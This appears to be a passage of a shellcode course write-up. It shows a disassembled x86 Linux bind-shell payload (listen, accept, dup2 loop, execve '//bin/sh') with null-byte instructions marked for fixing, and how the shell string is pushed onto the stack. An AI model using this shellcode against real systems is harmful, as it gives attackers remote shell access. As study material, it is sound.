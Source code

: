 ```mov    eax,0x66``` should be converted to ```mov   al,0x66```<br/>
 8048093:	cd 80                	int    0x80
 8048095:	b8 66 00 00 00       	mov    eax,0x66 ; <==
 804809a:	bb 04 00 00 00       	mov    ebx,0x4  ; <==
 804809f:	6a 01                	push   0x1
 80480a1:	57                   	push   edi
 80480a2:	89 e1                	mov    ecx,esp
 80480a4:	cd 80                	int    0x80
 80480a6:	b8 66 00 00 00       	mov    eax,0x66 ; <==
 80480ab:	bb 05 00 00 00       	mov    ebx,0x5  ; <==
 80480b0:	6a 00                	push   0x0      ; <==
 80480b2:	6a 00                	push   0x0      ; <==
 80480b4:	57                   	push   edi
 80480b5:	89 e1                	mov    ecx,esp
 80480b7:	cd 80                	int    0x80
 80480b9:	31 c9                	xor    ecx,ecx
 80480bb:	89 c3                	mov    ebx,eax
 80480bd:	b8 3f 00 00 00       	mov    eax,0x3f ; <==

080480c2 <dup2_loop>:
 80480c2:	cd 80                	int    0x80
 80480c4:	b8 3f 00 00 00       	mov    eax,0x3f ; <==
 80480c9:	41                   	inc    ecx
 80480ca:	83 f9 02             	cmp    ecx,0x2
 80480cd:	7e f3                	jle    80480c2 <dup2_loop> ; <==
 80480cf:	b8 0b 00 00 00       	mov    eax,0xb  ; <==
 80480d4:	6a 00                	push   0x0      ; <==
 80480d6:	68 6e 2f 73 68       	push   0x68732f6e
 80480db:	68 2f 2f 62 69       	push   0x69622f2f
 80480e0:	89 e3                	mov    ebx,esp
 80480e2:	b9 00 00 00 00       	mov    ecx,0x0  ; <==
 80480e7:	ba 00 00 00 00       	mov    edx,0x0  ; <==
 80480ec:	cd 80                	int    0x80
```

### Notes on reversing "//bin/sh" string
```bash
[sengen@manjaro-x86 assignment1]$ python
Python 3.6.2 (default, Jul 20 2017, 15:08:48)
[GCC 7.1.1 20170630] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import binascii
>>> code=b'//bin/sh'
>>> binascii.hexlify(code[::-1])
b'68732f6e69622f2f'
>>>
```

**Then you can push it to the stack in 4 byte segments**
```
push 0x68732f6e
push 0x69622f2f
```
